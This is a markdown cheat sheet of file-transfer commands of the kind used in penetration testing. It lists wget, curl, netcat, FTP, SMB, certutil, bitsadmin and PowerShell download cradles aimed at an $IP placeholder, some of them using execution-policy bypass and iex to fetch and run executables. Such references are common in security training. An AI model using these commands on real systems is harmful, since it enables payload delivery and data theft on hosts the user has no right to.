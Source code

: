 # File Transfer

| No. | Command |
|-----|---------|
| 1   | `wget http://$IP/file -O /tmp/test.tmp` |
| 2   | `curl http://$IP/file` |
| 3   | `fetch http://$IP/file` |
| 4   | `nc $IP $port > outfile` |
| 5   | `nc -lnvp $port < infile` |
| 6   | `ftp -s:input.txt` |
| 7   | `ftp $ip` |
| 8   | `get $filename` |
| 9   | `sudo apt install python-pyftpdlib` |
| 10  | `sudo python -m pyftpdlib -p 21` |
| 11  | `python -m SimpleHTTPServer 80` |
| 12  | `python -m http.server 80` |
| 13  | `curl -O http://$ip/putty.exe` |
| 14  | `python smbserver.py ata /root/share` |
| 15  | `[WIN+R] \\$ip` |
| 16  | `apt install smbclient` |
| 17  | `smbclient -L $ip` |
| 18  | `smbclient //$ip/ata` |
| 19  | `(new-object System.Net.WebClient).DownloadFile('//$ip/putty.exe', 'd:\\data\\putty.exe')` |
| 20  | `bitsadmin /transfer job //example.com/path/putty.exe F:\\putty.exe` |
| 21  | `php -S 0.0.0.0:80` |
| 22  | `scp $filename user@host:~/path_dir` |
| 23  | `scp $filename $username@$ip:~/` |
| 24  | `python -m pyftpdlib 21` |
| 25  | `ftp $ip` |
| 26  | `bitsadmin /transfer download /priority normal http://$ip/file C:\\output\\path` |
| 27  | `powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile('http://$ip:$port/$filename','C:\\Users\\user\\AppData\\Local\\ack.exe'));}”` |
| 28  | `certutil -urlcache -split -f “http://$ip/$filename" $filename` |
| 29  | `echo $storageDir = $pwd > wget.ps1` |
| 30  | `echo $webclient = New-Object System.Net.WebClient >> wget.ps1` |
| 31  | `echo $url = "http://$ip/$filename" >> wget.ps1` |
| 32  | `echo $filename = "filename" >> wget.ps1` |
| 33  | `echo $webclient.DownloadFile($url,$filename) >> wget.ps1` |
| 34  | `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File $filename` |
